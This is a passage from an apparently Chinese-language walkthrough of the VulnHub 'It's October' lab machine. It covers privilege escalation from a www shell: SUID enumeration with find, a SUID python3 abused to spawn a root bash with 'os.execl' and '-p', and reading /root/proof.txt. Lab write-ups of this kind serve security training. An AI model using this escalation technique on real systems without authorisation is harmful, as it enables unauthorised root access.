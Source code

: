 www 的权限,接下来找找提权的点
```bash
sudo -l
find / -perm -u=s 2>/dev/null
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/19.png)

python3.7 具有 suid 位
```bash
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
id
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/20.png)

```bash
cd /root
cat proof.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/21.png)
